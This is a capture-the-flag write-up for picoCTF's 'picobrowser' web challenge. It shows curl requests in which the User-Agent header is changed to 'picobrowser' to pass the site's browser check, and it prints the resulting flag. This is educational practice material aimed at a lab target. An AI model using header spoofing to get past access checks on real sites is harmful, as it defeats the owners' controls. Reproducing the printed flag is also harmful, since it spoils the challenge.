

# WriteUp - picobrowser

## Overview

* **Name:** picobrowser
* **Category:** Web Exploitation
* **Point:** 200
* **Author:** Archit
* **Year:** 2019
* **Desc:** This Website can be rendered only by picobrowser, go and catch the flag!
* **Attachment:** http://fickle-tempest.picoctf.net:51061
* **Hint:** You don't need to download a new web browser

## Summary

* Summary point

## Attack Idea

If you got this message ``"You're not picobrowser! Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36"`` <br>
we can cahnge Request Body:
> 
````bash
curl 'http://fickle-tempest.picoctf.net:51061/flag' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.6' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://fickle-tempest.picoctf.net:51061/flag' \
  -H 'Sec-GPC: 1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36' \
  --insecure
````
````bash
  curl 'http://fickle-tempest.picoctf.net:51061/flag' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.6' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://fickle-tempest.picoctf.net:51061/flag' \
  -H 'Sec-GPC: 1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: picobrowser' \ <- change the User-Agent
  --insecure -s | grep 'pico'
         <!-- <strong>Title</strong> --> picobrowser!
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{p1c0_s3cr3t_ag3nt_fba5c48f}</code></p>
````

<b>FLAG:
----

picoCTF{p1c0_s3cr3t_ag3nt_fba5c48f}
 </b>
